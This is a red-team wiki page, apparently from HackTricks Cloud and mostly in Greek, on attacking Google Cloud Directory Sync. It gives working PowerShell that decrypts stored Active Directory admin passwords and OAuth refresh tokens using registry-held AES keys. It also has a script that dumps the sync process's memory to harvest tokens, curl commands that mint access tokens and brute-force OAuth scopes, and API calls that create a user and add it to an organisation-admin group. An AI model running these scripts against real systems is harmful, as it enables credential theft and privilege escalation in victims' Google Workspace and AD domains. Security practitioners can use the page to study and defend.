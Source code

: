 # GCDS - Google Cloud Directory Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Αυτό είναι ένα εργαλείο που μπορεί να χρησιμοποιηθεί για να **συγχρονίσετε τους χρήστες και τις ομάδες του Active Directory σας με το Workspace σας** (και όχι το αντίστροφο κατά τη στιγμή της συγγραφής αυτού του κειμένου).

Είναι ενδιαφέρον γιατί είναι ένα εργαλείο που θα απαιτήσει τα **διαπιστευτήρια ενός superuser του Workspace και ενός προνομιούχου χρήστη του AD**. Έτσι, μπορεί να είναι δυνατό να το βρείτε μέσα σε έναν διακομιστή τομέα που θα συγχρονίζει χρήστες από καιρό σε καιρό.

{% hint style="info" %}
Για να εκτελέσετε ένα **MitM** στο **`config-manager.exe`** δυαδικό αρχείο, απλώς προσθέστε την παρακάτω γραμμή στο αρχείο `config.manager.vmoptions`: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
Σημειώστε ότι [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) είναι ικανό να ανιχνεύσει **GCDS**, να αποκτήσει πληροφορίες σχετικά με τη διαμόρφωση και **ακόμα και τους κωδικούς πρόσβασης και τα κρυπτογραφημένα διαπιστευτήρια**.
{% endhint %}

Επίσης, σημειώστε ότι το GCDS δεν θα συγχρονίσει τους κωδικούς πρόσβασης από το AD στο Workspace. Αν κάτι, θα δημιουργήσει απλώς τυχαίους κωδικούς πρόσβασης για τους νεοδημιουργηθέντες χρήστες στο Workspace, όπως μπορείτε να δείτε στην παρακάτω εικόνα:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokens & AD Credentials

Το δυαδικό αρχείο `config-manager.exe` (το κύριο δυαδικό αρχείο GCDS με GUI) θα αποθηκεύσει τα διαπιστευτήρια του Active Directory που έχουν ρυθμιστεί, το refresh token και την πρόσβαση από προεπιλογή σε ένα **xml αρχείο** στον φάκελο **`C:\Program Files\Google Cloud Directory Sync`** σε ένα αρχείο που ονομάζεται **`Untitled-1.xml`** από προεπιλογή. Αν και θα μπορούσε επίσης να αποθηκευτεί στα `Documents` του χρήστη ή σε **οποιονδήποτε άλλο φάκελο**.

Επιπλέον, το μητρώο **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** μέσα στην κλειδαριά **`open.recent`** περιέχει τις διαδρομές προς όλα τα πρόσφατα ανοιγμένα αρχεία διαμόρφωσης (xmls). Έτσι, είναι δυνατό να **το ελέγξετε για να τα βρείτε**.

Οι πιο ενδιαφέρουσες πληροφορίες μέσα στο αρχείο θα είναι:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Σημειώστε πώς το **refresh** **token** και ο **κωδικός πρόσβασης** του χρήστη είναι **κρυπτογραφημένα** χρησιμοποιώντας **AES CBC** με ένα τυχαία παραγόμενο κλειδί και IV που αποθηκεύονται στο **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (όπου η βιβλιοθήκη **`prefs`** Java αποθηκεύει τις προτιμήσεις) στα κλειδιά συμβολοσειράς **`/Encryption/Policy/V2.iv`** και **`/Encryption/Policy/V2.key`** που αποθηκεύονται σε base64.

<details>

<summary>Powershell script για την αποκρυπτογράφηση του refresh token και του κωδικού πρόσβασης</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
Σημειώστε ότι είναι δυνατόν να ελέγξετε αυτές τις πληροφορίες ελέγχοντας τον κώδικα java του **`DirSync.jar`** από **`C:\Program Files\Google Cloud Directory Sync`** αναζητώντας τη συμβολοσειρά `exportkeys` (καθώς είναι η παράμετρος cli που αναμένει το δυαδικό `upgrade-config.exe` για να εξάγει τα κλειδιά).
{% endhint %}

Αντί να χρησιμοποιήσετε το σενάριο powershell, είναι επίσης δυνατό να χρησιμοποιήσετε το δυαδικό **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** με την παράμετρο `-exportKeys` και να αποκτήσετε το **Key** και **IV** από το μητρώο σε μορφή hex και στη συνέχεια να χρησιμοποιήσετε κάποιο cyberchef με AES/CBC και αυτό το κλειδί και IV για να αποκρυπτογραφήσετε τις πληροφορίες.

### GCDS - Εξαγωγή tokens από τη μνήμη

Ακριβώς όπως με το GCPW, είναι δυνατό να εξάγετε τη μνήμη της διαδικασίας του `config-manager.exe` (είναι το όνομα του κύριου δυαδικού GCDS με GUI) και θα μπορείτε να βρείτε tokens ανανέωσης και πρόσβασης (αν έχουν ήδη παραχθεί).\
Υποθέτω ότι θα μπορούσατε επίσης να βρείτε τις ρυθμισμένες διαπιστεύσεις AD.

<details>

<summary>Εξαγωγή διαδικασιών config-manager.exe και αναζήτηση tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Δημιουργία διαπιστευτηρίων πρόσβασης από ανανεωτικά διαπιστευτήρια

Χρησιμοποιώντας το ανανεωτικό διαπιστευτήριο, είναι δυνατή η δημιουργία διαπιστευτηρίων πρόσβασης χρησιμοποιώντας αυτό και το αναγνωριστικό πελάτη και το μυστικό πελάτη που καθορίζονται στην παρακάτω εντολή:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Scopes

{% hint style="info" %}
Σημειώστε ότι ακόμη και αν έχετε ένα refresh token, δεν είναι δυνατόν να ζητήσετε οποιοδήποτε scope για το access token, καθώς μπορείτε να ζητήσετε μόνο τα **scopes που υποστηρίζονται από την εφαρμογή όπου δημιουργείτε το access token**.

Επίσης, το refresh token δεν είναι έγκυρο σε κάθε εφαρμογή.
{% endhint %}

By default GCSD won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Και αυτό είναι το αποτέλεσμα που πήρα τη στιγμή που έγραφα:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Δημιουργήστε έναν χρήστη και προσθέστε τον στην ομάδα `gcp-organization-admins` για να προσπαθήσετε να κλιμακώσετε στο GCP
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
{% hint style="danger" %}
Δεν είναι δυνατόν να δοθεί στον νέο χρήστη ο ρόλος του Super Admin επειδή το **refresh token δεν έχει αρκετά scopes** για να δώσει τα απαιτούμενα προνόμια.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
